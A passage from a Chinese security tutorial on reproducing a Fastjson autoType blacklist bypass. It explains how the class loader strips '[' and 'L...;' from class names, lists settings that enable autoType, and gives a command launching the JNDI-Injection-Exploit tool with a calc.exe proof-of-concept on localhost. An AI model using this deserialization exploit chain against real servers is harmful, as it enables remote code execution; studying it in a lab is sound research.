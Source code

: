 [![](assets/1706233003-31540d4ef034be3a8c4e2ca9130bfb91.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170457-a5c5daf4-ba97-1.jpeg)  
我们来仔细看下上图红框中的代码，代码的含义是：如果类名的字符串以`[`开头，则说明该类是一个数组类型，需要递归调用`loadClass`方法来加载数组元素类型对应的`Class`对象，然后使用`Array.newIntrance`方法来创建一个空数组对象，最后返回该数组对象的`Class`对象；如果类名的字符串以`L`开头并以`;`结尾，则说明该类是一个普通的`Java`类，需要把开头的`L`和结尾的`;`给去掉，然后递归调用`loadClass`。

### （2）黑白名单绕过的复现

基于以上的分析，我们可以发现，只要我们把`payload`简单改一下就可以绕过。  
我们需要先开启默认禁用的`autoType`，有以下三种方式：

```plain
使用代码进行添加：ParserConfig.getGlobalInstance().addAccept("org.example.,org.javaweb.");或者 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
加上 JVM 启动参数：-Dfastjson.parser.autoTypeAccept=org.example.
在 fastjson.properties 中添加：fastjson.parser.autoTypeAccept=org.example.
```

我们先去`[https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)`下载个`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`，然后启动利用工具：

```plain
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

选择下面的`JDK 1.8`的：  
[![](assets/1706233003-562915c9a4e62f858798fded45e3542f.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170458-a6315950-ba97-1.jpeg)  
然后在`Main.java`中写入如下代码：
